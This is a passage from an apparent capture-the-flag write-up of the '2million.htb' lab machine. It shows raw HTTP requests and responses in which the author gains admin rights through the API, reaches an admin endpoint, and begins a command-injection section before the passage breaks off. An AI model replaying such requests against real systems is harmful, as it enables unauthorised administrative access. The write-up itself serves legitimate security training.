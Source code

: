 #### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:12:30 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 43

{"id":13,"username":"wln5t0n","is_admin":1}
```

Nice i am admin now i can access `/api/v1/admin/auth` lets check now.
#### Request
```ruby
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:15:22 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 16

{"message":true}
```

### Command Injection

Now i can access `/api/v1/admin/vpn/generate`. 
#### Request
```ruby
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
